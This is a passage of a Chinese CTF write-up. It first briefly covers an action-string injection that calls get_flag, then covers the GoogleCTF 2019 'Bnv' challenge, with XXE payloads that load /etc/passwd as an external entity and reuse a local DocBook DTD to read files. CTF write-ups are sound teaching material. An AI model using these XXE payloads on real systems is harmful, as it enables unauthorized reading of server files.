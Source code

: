 关键代码不用解释

整体代码的逻辑就在于

![image-20211222213724904](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211222213724904.png)

绕过后缀的拼接，自己加入自己就可以多执行。buy5个钻石 最后eval getflag就可以了。

```
action:trigger_event#;action:buy;2#action:buy;3#action:get_flag;#
```

## 0x05 [GoogleCTF2019 Quals]Bnv

这个是xml学爆的一天

首先 **有json数据的地方就有xxe** 

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE message[
	<!ELEMENT message (#PCDATA)>
	<!ENTITY id '1233333333333'>
	<!ENTITY % dtd SYSTEM '/etc/passwd'>
	%dtd;
]>
<message>&id;</message>
```

可以验证这个实体成立了。

来读文件

```

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE message[
	<!ELEMENT message (#PCDATA)>
	<!ENTITY id '1233333333333'>
	<!ENTITY % dtd SYSTEM '/etc/passwd'>
	%dtd;
]>
<message>&id;</message>
```

报错了，说明这个格式不正确呀。

所以现在需要一个本地的DTD文件https://mohemiv.com/tags/xxe/

```
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa 'Your DTD code'>
%local_dtd;
```

![image-20211222222709927](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211222222709927.png)

这个回显可控可以做一个笔记。后面其实我们就不能查到了。 我们先读取flag，然后再读第二个文件的文件名设置为上面那个变量 然后加载出来就可以了。
